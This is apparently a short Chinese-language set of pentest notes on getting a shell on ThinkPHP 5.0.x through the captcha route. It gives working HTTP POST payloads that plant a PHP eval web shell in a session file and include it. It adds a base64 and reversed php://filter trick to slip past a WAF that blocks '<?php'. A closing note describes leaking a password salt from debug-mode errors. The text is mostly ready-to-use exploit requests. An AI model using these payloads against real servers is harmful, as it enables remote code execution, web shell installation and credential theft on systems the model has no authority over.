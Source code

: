 2，写session，包含session getshell。payload如下：
```
写shell进session
POST /?s=captcha HTTP/1.1
Cookie: PHPSESSID=kking


_method=__construct&filter[]=think\Session::set&method=get&get[]=<?php eval($_POST['x'])?>&server[]=1

包含session getshell
POST /?s=captcha

_method=__construct&method=get&filter[]=think\__include_file&get[]=tmp\sess_kking&server[]=1
而这两种方式在这里都不可用，因为waf对<?php等关键字进行了拦截，还有其他办法吗？
```

绕过
第一步
```
POST /?s=captcha
Cookie: PHPSESSID=kktest

_method=__construct&filter[]=think\Session::set&method=get&get[]=abPD9waHAgQGV2YWwoYmFzZTY0X2RlY29kZSgkX0dFVFsnciddKSk7Oz8%2bab&server[]=1
```
(payload前后两个ab同样是为了base64解码凑字符的原因)   

第二步
```
POST /?s=captcha&r=cGhwaW5mbygpOw==

_method=__construct&filter[]=strrev&filter[]=think\__include_file&method=get&server[]=1&get[]=tsetkk_sses/pmt/=ecruoser/edoced-46esab.trevnoc=daer/retlif//:php

```


ThinkPHP 5.0.X 的一个小trick，在目标启用了 debug 模式下并通过敏感功能点传递空数组时可能会引起程序异常从而导致敏感信息泄漏，如登录处，拿到盐



# 参考
https://y4er.com/post/thinkphp5-rce/
